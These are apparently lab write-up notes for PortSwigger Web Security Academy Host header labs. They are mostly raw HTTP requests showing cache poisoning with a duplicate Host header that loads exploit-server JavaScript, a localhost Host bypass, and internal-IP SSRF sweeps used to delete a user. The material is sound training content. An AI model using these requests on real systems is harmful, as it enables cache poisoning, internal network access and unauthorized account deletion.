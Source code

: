 ```yaml
---
description: https://portswigger.net/web-security/host-header
---
```


# HTTP Host header attacks

### Lab: Web cache poisoning via ambiguous requests

This lab is vulnerable to web cache poisoning due to discrepancies in how the cache and the back-end application handle ambiguous requests. An unsuspecting user regularly visits the site's home page.

To solve the lab, poison the cache so the home page executes alert(document.cookie) in the victim's browser.

```
GET / HTTP/1.1
Host: aca21fda1e02fa41c09e7b5d00b800ba.web-security-academy.net
Host: test

In response:
<script type="text/javascript" src="//test/resources/js/tracking.js"></script>
```

**Exploit Server ->**

```
File:
	/resources/js/tracking.js
Body:
	alert(document.cookie)
```

**Solution:**

```
GET / HTTP/1.1
Host: aca21fda1e02fa41c09e7b5d00b800ba.web-security-academy.net
Host: exploit-acf41f041e12fa04c0737b2e0120004e.web-security-academy.net
```

### Lab: Host header authentication bypass

This lab makes an assumption about the privilege level of the user based on the HTTP Host header.

To solve the lab, access the admin panel and delete Carlos's account.

`/robots.txt -> /admin`

```
GET /admin HTTP/1.1

In the response:
Admin interface only available to local users
```

**Solution:**

```
GET /admin HTTP/1.1
Host: localhost

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
```

### Lab: Routing-based SSRF

This lab is vulnerable to routing-based SSRF via the Host header. You can exploit this to access an insecure intranet admin panel located on an internal IP address.

To solve the lab, access the internal admin panel located in the 192.168.0.0/24 range, then delete Carlos.

```
GET / HTTP/1.1
Host: 192.168.0.0/admin

In the response:
Server Error: Gateway Timeout (3) connecting to 192.168.0.0/admin
```

Sniper Attack -> Numbers -> Sequential, From:0, To:255, Step:1, Max fraction digits:0

```
GET / HTTP/1.1
Host: 192.168.0.§0§
```

```
GET / HTTP/1.1
Host: 192.168.0.96

In the response:
HTTP/1.1 302 Found
Location: /admin

GET /admin HTTP/1.1
Host: 192.168.0.96

In the response:
<form style='margin-top: 1em' class='login-form' action='/admin/delete' method='POST'>
	<input required type="hidden" name="csrf" value="YNlVztezGfPEmYLGVBW8Ho82YylVqqx7">
	<label>Username</label>
	<input required type='text' name='username'>
	<button class='button' type='submit'>Delete user</button>
</form>
```

**Solution:**

```
POST /admin/delete HTTP/1.1
Host: 192.168.0.96
...
username=carlos&csrf=YNlVztezGfPEmYLGVBW8Ho82YylVqqx7
```

### Lab: SSRF via flawed request parsing

This lab is vulnerable to routing-based SSRF due to its flawed parsing of the request's intended host. You can exploit this to access an insecure intranet admin panel located at an internal IP address.

To solve the lab, access the internal admin panel located in the 192.168.0.0/24 range, then delete Carlos.

```
GET https://ac741fe01f2a7d86c047320900fb00d2.web-security-academy.net/ HTTP/1.1

Host: c7kuceek5r1hnrf5lf7u2u7c43atyi.burpcollaborator.net
### Got request to the collaborator
```

Sniper Attack -> Numbers -> Sequential, From:0, To:255, Step:1, Max fraction digits:0

```
GET https://ac741fe01f2a7d86c047320900fb00d2.web-security-academy.net/ HTTP/1.1
Host: 192.168.0.§0§
```

```
GET https://ac741fe01f2a7d86c047320900fb00d2.web-security-academy.net/ HTTP/1.1
Host: 192.168.0.223

In the response:
HTTP/1.1 302 Found
Location: /admin
Connection: close
Content-Length: 0

GET https://ac741fe01f2a7d86c047320900fb00d2.web-security-academy.net/admin HTTP/1.1
Host: 192.168.0.223

In the response:
<form style='margin-top: 1em' class='login-form' action='/admin/delete' method='POST'>
	<input required type="hidden" name="csrf" value="dKsfuHNicZ0WIITPeG6aiWQ2dlYDNtoR">
	<label>Username</label>
	<input required type='text' name='username'>
	<button class='button' type='submit'>Delete user</button>
</form>
```

**Solution:**

```
POST https://ac741fe01f2a7d86c047320900fb00d2.web-security-academy.net/admin/delete HTTP/1.1
Host: 192.168.0.223
...
username=carlos&csrf=dKsfuHNicZ0WIITPeG6aiWQ2dlYDNtoR
```
